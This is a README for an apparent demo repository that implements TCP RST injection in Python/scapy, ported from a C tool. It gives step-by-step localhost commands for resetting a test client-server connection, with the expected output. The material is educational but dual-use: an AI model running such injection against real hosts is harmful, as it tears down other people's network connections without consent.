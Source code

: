 This repository contains a python/scapy implementation of the TCP RST injection showcased in the included c file. 

Howto:
```
$ indicates command to be executed
> indicates output on the console
```

start the server
```
$ python server.py
> TCP Server binding to port 5000
```

start the client
```
$ python client.py
```

record the port number the server reports (47413 in the running example)
```
> I got a connection from 127.0.0.1:47413
```

start the injection
```
$ python tcprst.py -D 127.0.0.1 -d 5000 -S 127.0.0.1 -s 47413
```

wait until the server exits with the a message:
```
> Traceback (most recent call last):
>   File "server.py", line 15, in <module>
>     data = client_socket.recv(512)
> socket.error: [Errno 104] Connection reset by peer
```
done!

More info on TCP/RST injection:
http://kerneltrap.org/node/3072
http://www.blackhatacademy.org/security101/TCP-RST_Injection

Source of the c file: 
http://packetstormsecurity.org/files/38708/tcprst.c.html